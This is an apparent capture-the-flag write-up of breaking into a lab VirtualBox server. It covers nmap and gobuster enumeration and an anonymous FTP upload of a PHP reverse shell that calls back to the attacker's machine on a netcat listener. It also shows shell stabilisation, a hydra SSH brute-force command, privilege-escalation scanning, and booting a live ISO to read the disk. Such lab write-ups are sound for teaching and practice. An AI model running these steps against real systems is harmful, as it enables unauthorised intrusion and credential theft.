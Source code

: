 # Task 1: Gain access to a remote server.

After starting the machine, our first task is to identify the ip of the virtual machine in local subnet. I did that by simply doing an nmap scan on the local subnet, since we already know the machine will be hosting a server. There probably are better methods to do the same, but I found this one to be easy and fast in this case.  
`nmap 192.168.1.1/24`  
Within a few seconds, we see only 192.168.1.1 and 192.168.1.10 have open http ports, and since 192.168.1.1 is our router interface, the machine has to be 192.168.1.10.

Now we perform an indepth nmap scan of the ip, using service detection.  
`nmap 192.168.1.10 -sV -p-`  
~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:42:22:F8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
After running the following command, we find only open ports to be 21(ftp), 22(ssh) and 80(http). I tried finding the versions of these service on exploit-db but couldn't find a decent exploit and decided to investigate other things first. Using gobuster, we can perform directory enumeration on port 80 to find common directories.  
`gobuster dir -e -u http://192.168.1.10/ -w /usr/share/wordlists/dirb/common.txt`  
~~~
http://192.168.1.10/.hta                 (Status: 403) [Size: 277]
http://192.168.1.10/.htpasswd            (Status: 403) [Size: 277]
http://192.168.1.10/.htaccess            (Status: 403) [Size: 277]
http://192.168.1.10/files                (Status: 301) [Size: 312] [--> http://192.168.1.10/files/]
http://192.168.1.10/index.html           (Status: 200) [Size: 183]                                 
http://192.168.1.10/server-status        (Status: 403) [Size: 277] 
~~~
We found /files/ directory to be accessible by us containing a file 'site.html', which isn't particularly useful though.  
Next we investigate the ftp port and check if it allows anonymous connections:  
`ftp 192.168.1.10`  
~~~
Connected to 192.168.1.10.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.10]
Name (192.168.1.10:tinytrebuchet): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp            93 Oct 10 15:02 site.html
~~~
As we can see, the ftp allows anonymous access into the /files/ directory and we can now upload any file via ftp to the server and run it from /files/ on port 80. To get into the server, we will upload a simple php-reverse-shell on port 8888.  
`cp /usr/share/webshells/php/php-reverse-shell.php ~/innocent.php`  
Then we modify the reverse-shell script and change ip to our host os ip (192.168.1.6 for our case found using `ip addr`) and port to 8888. Then finally upload it the server using the ftp connection.  
`put innocent.php`  
~~~
local: innocent.php remote: innocent.php
200 PORT command successful
150 Opening BINARY mode data connection for hash.txt
226 Transfer complete
5493 bytes sent in 0.00 secs (7.9493 kB/s)
~~~
Now, we open a netcat listener on our host os at port 8888 using and then execute the reverse-shell from the http://192.168.10/files/ directory.
We should get a successful connect on our host os:
`nc -lvp 8888`
~~~
listening on [any] 8888 ...
192.168.1.10: inverse host lookup failed: Unknown host
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.10] 37384
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 02:56:34 up 39 min,  0 users,  load average: 0.08, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
A good practice is to stabilize the reverse shell, which can be done easily if the server has python installed, that way we have support for tab-autocompletion and Ctrl-C doesn't close our netcat listener. This can be done by executing the following commands:  
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ export TERM=xterm
```
Then, we press Ctrl-Z on our keyboard to background the reverse shell, modify the stty on your host os, and then foreground:  
`stty raw -echo; fg`  
After this, we should have a fully stabilized reverse-shell.  

We are logged in as www-data: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`, which doesn't have a lot of permissions, so I thought we might need to perform privilege escalation later. But first, we checked the machine for some basic info.  
`cat /etc/passwd`
~~~
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ftp:x:1001:1001:,,,:/home/ftp:/bin/bash
colord:x:110:119:colord colour management daemon,,,:/var/lib/colord:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
dk:x:1000:1000:dk:/home/dk:/bin/bash
~~~
`cd /home/; ls -al`
~~~
drwxr-xr-x  3 root root   4096 Oct 10 08:55 .
drwxr-xr-x 23 root root   4096 Oct 10 09:17 ..
-rwxr-xr-x  1 root root 211528 Aug  5 04:35 .fishy.vt
-rw-r-----  1 root root  16384 Aug  5 08:08 .fishy.vt.swp
drwxr-x---  4 dk   dk     4096 Oct 15 20:48 dk
-rwxr-xr-x  1 root root     32 Aug  5 08:06 runme.sh
~~~
We see the machine has another user named 'dk' and we don't have access to his home directory. The key should be in there somewhere. There's also a runme.sh script which just cats .fishy.vt slowly using pv, as an asciimation. However the file has an interesting 32 digit base64 encoded string written in it on top : 'mpthRrM4f0XPQem4ISiZL3kxDgMLrX6S'. I checked if it's the password of any user, dk or root, by doing `su <user>` and putting this as password, but no use. I also tried to bruteforce the password by using hydra on ssh port, but without any success (the connection seemed to be possible throttled).  
`hydra -l dk -P /usr/share/wordlists/rockyou.txt 192.168.1.10 -t 4 -vV -I -f ssh`  
I decided to investigate for privilege escalation on the machine. I used the 'linpeas.sh' and 'LinEnum.sh' scripts available on github to find any vulnerablites. I put them in the /files/ directory using the ftp connection from host os, and then copied them from /var/www/html/files/ to /tmp/ on the server. I checked for any exploitable SUID file or crontabs or anyother vulnerablity in general but couldn't find anything much useful and exploitable. I even tried to look for kernerl exploits from exploit-db but with no success. After a lot of thinking and finding, and since I was running short on time, I finally gave up on this.  


## Method 2
I actually thought of this method immediately when I saw the ova file, but decided to save it for last, as it doesn't involving finding vulnerablites in the server, but is rather a dirty trick, but it still allowed me to get the key in under 5 mins, so I thought to share it here.  
The plan was, if the machine has unencrypted file system, we could simple boot from a live-usb to access the filesystem and get the key from dk's home directory. I used my handy arch-iso (I use arch btw 😛), put that into virtual machine's storage devices under 'Controller: IDE', marked it as 'Live CD/DVD' on right pane, saved the changes and rebooted the machine. As expected, the machine booted from live arch iso, and we could easily get the file by mounting the file system.  
![Screenshot from 2021-10-18 12-08-12](https://user-images.githubusercontent.com/73381089/137680984-ff0af756-6436-4bde-b373-a02762fa61b3.png)
